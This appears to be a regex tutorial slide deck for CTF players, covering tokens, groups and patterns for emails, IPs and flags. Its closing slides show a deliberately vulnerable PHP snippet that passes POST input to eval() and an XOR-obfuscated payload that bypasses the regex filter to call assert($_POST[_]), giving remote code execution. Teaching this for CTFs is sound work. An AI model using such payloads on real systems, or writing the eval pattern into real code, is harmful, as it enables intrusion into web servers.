



```{r setup, include=FALSE}
library(knitr)
knitr::opts_chunk$set(tidy.opts = list(width.cutoff = 60), tidy = TRUE)
```


# Regex (Regular expression)
```{r, echo=FALSE, fig.show="hold", fig.align='center', out.width = "60%"}

```


# Intro

## Patterns?
- emails
- domains names
- ip addresses
- phone numbers
- flags?
- etc...

# To follow along
https://regex101.com/

# Tokens
Python tokens, because yes, like sign language, people thought "why not make 30+ regex different flavors"
```{r, echo=FALSE, fig.show="hold", fig.align='center', out.width = "60%"}

```

# Tokens
## Matching strings
```
^     => Start of a string
$     => End of a string
[abc] => match either a b or c
[a-c] => Match everything between a and c
.     => Match every single char
```
## Numeration
```
?     => Match zero or one
+     => one or more
*     => zero or more
{n}   => match n time
{n,m} => match between n and m times
```

# More tokens
## Special chars
```
\s    => Whitespace chars
\S    => Non-WhiteSpace chars
\w    => Word char
\d    => Digit
\b    => Word boundary
```

## Groups
```
(?:...)  => Matching group
(...)    => Group
(?#...)  => Comment group
(?=...)  => Positive lookahead
(?!...)  => Negative lookahead
(?<=...) => Positive lookbehind
(?<!...) => Negative lookbehind 
```

# Patterns
```{r, echo=FALSE, fig.show="hold", fig.align='center', out.width = "60%"}

```

# Patterns

## Patterns
```python
# emails
regex = re.compile(r'''([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+
(\.[A-Z|a-z]{2,})+''')
# domains names
regex = r'''(([\da-zA-Z])([_\w-]{,62})\.){,127}(([\da-zA-Z])[_\w-]{,61})?
([\da-zA-Z]\.((xn\-\-[a-zA-Z\d]+)|([a-zA-Z\d]{2,})))'''
# ip addresses
regex = """^((25[0-5]|2[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])\.){3}(25[0-5]|2
[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])$"""
# flags?
regex = r"dvCTF{\S{3,}}"
```


# More stuff no know by heart?
## Options
```
i => case insensitive
m => multiline
s => single line
...
```

# Please stop, I can only learn so much
```{r, echo=FALSE, fig.show="hold", fig.align='center', out.width = "40%"}
include_graphics("images/an2lhgcr9kc61.png")
```

# CTF challs
```{r, echo=FALSE, fig.show="hold", fig.align='center', out.width = "50%"}
include_graphics("images/61yti3.jpeg")
```

# CTF challs
Get easy RCE
```php
preg_replace(patterns, replacements, input, limit, count)
```
```{r, echo=FALSE, fig.show="hold", fig.align='center', out.width = "40%"}

```

# Learn regex to bypass regex

## Know your regex
```php
if (!preg_match('\[a-z0-9]/si',$_POST['cmd'])) {
  eval($_POST['cmd']);
}
else
{
  echo 'Nope';
}
```

## Make php use XOR 
```php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```


# Thank you
```{r, echo=FALSE, fig.show="hold", fig.align='center', out.width = "40%"}
include_graphics("images/gu4n3392l4w61.png")
```